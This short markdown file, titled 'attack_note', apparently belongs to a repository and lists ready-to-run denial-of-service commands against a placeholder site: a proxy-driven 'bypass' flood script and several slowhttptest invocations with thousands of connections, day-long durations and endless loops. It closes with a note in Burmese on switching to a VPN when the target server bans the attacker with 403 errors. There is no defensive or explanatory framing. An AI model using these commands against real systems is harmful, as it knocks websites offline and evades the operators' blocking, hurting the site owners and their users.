 # attack_note

``` python3 start.py bypass https://?.com 5 101 socks5.txt 100 3600 true ```

``` slowhttptest -c 10239 -l 36000 -H -x 24 -p 3 -r 20000 -t GET -i 10 -u http://?.com ```

``` while true; do slowhttptest -H -c 10239 -r 15321 -l 86400 -u http://?.com -s 512 -t GET -v 3; done ```

``` while true; do slowhttptest -B -c 10239 -r 15321 -l 86400 -u http://?.com -s 4096 -t POST -f application/x-www-form-urlencoded -x 4 -v 2; done; ```


# Other notes

``` 403 အမြဲပြနေတာက Server က Ban လို့ -> VPNနဲ့ ပြန်စမ်းကြည့် ```
